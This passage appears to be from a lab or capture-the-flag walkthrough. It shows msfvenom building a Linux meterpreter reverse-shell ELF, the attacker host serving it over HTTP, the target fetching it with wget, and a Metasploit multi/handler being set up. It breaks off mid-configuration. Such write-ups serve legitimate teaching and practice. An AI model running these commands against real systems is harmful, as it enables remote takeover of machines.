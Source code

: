 Attacker Machine:
```console
──(siachen㉿kali)-[~/Downloads]
└─$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.13.17.49 LPORT=4444 -f elf > rev_shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
                                                                                                                    
┌──(siachen㉿kali)-[~/Downloads]
└─$ ls
rev_shell.elf
```
Start a Python3 HTTP server to serve the file to the target.

Attacker Machine:
```console
┌──(siachen㉿kali)-[~/Downloads]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
From the SSH connection on target, download the payload.

Target Machine:
```console
$ wget 10.13.17.49:8000/rev_shell.elf
--2023-03-04 01:28:57--  http://10.13.17.49:8000/rev_shell.elf
Connecting to 10.13.17.49:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 207 [application/octet-stream]
Saving to: ‘rev_shell.elf’

rev_shell.elf                100%[==============================================>]     207  --.-KB/s    in 0.01s   

2023-03-04 01:28:57 (17.2 KB/s) - ‘rev_shell.elf’ saved [207/207]

$ ls
rev_shell.elf
$ 
```
Start our multi/handler in msfconsole.

Attacker Machine:
```console
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.13.17.49
lhost => 10.13.17.49

msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```